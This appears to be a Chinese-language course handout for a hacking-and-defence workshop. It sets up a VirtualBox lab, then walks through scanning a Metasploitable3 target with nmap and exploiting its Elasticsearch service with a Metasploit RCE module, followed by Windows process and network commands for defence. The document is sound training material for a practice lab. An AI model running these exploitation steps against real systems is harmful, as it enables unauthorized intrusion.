







# 環境設定1:virtualbox安裝與設定
- 標準安裝virtualbox ==> 下一步下一步就裝好了
- 使用系統管理員身分啟動cmd
- 切換到VirtualBox 目錄 ==> cd C:\Program Files\Oracle\VirtualBox
- 檢視現有NAT網路 == > VBoxManage list natnetworks
- 新增NAT網路 == > VBoxManage natnetwork add --netname PT --network "10.0.2.0/24" --enable
- 再次檢視現有NAT網路 == >VBoxManage list natnetworks


# 環境設定2:
- 確認攻擊機(Kali linux)與靶機(Metasploitable3)在同一個NAT網路

- 兩台機器都可以ping 到對方 


# A.駭客攻防實戰營(1):Kali linux 攻擊與滲透測試技術
- 步驟1:nmap -sV -p- 10.0.2.4

- 步驟2:啟動metasploit== > msfconsole

- 步驟3:search elastic

```
1  auxiliary/scanner/elasticsearch/indices_enum                       normal     Yes    ElasticSearch Indices Enumeration Utility
2  auxiliary/scanner/http/elasticsearch_traversal                     normal     Yes    ElasticSearch Snapshot API Directory Traversal
3  exploit/multi/elasticsearch/script_mvel_rce       2013-12-09       excellent  Yes    ElasticSearch Dynamic Script Arbitrary Java Execution
4  exploit/multi/elasticsearch/search_groovy_script  2015-02-11       excellent  Yes    ElasticSearch Search Groovy Sandbox Bypass
5  exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```

- 步驟4:use exploit/multi/elasticsearch/script_mvel_rce

- 步驟5:設定攻擊參數
  - show options
  - set RHOSTS 10.0.2.4
  - show options

- 步驟6:進行攻擊 ==> exploit 或者 run

- 步驟7:攻擊成功

- 步驟8:進入到post-exploitation階段


# B.駭客攻防實戰營(2):如何阻擋駭客攻擊?
### 你必須要知道的Windows作業系統常用工具
- 工作管理員(TaksManager)


- 事件檢視器(EventViewser)

- gpedit.msc

- services.msc


### Windows 指令(Windows Commands)
- 參考網址:https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/windows-commands
- 重要指令練習:
  - netstat指令
    - netstat -a
    - netstat -an
    - netstat -ano
  - tasklist: 顯示目前在本機電腦或遠端電腦上正在執行的處理序清單
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/tasklist 
  - taskkill 殺執行中的程式(結束一個或多個工作或處理序)
    - taskkill /PID XXXX /F
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill
  - where == > 找出檔案的位置
    - 語法: WHERE [/R dir] [/Q] [/F] [/T] pattern...
    - 描述: 顯示符合搜尋模式的檔案位置。
    - 範例1: where /R C: svchost
    - 範例2: WHERE /r c:\windows *.exe *.dll *.bat
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/where
### 實作練習
- 1.使用 cmd 開啟notepad
- 2.使用工作管理員|詳細資料 找出notepad 的PID
- 3.行程終止: 使用taskkill /PID XXXX /F  ==> 終止notepad

## powershell指令(Cmdlet)
- https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/powershell
- https://learn.microsoft.com/zh-tw/powershell/
- https://learn.microsoft.com/zh-tw/powershell/scripting/how-to-use-docs?view=powershell-7.3
- 適用於系統管理的範例指令碼 https://learn.microsoft.com/zh-tw/powershell/scripting/samples/sample-scripts-for-administration?view=powershell-7.4

## 延伸學習教材1:nmap
## 延伸學習教材2:metsaploit
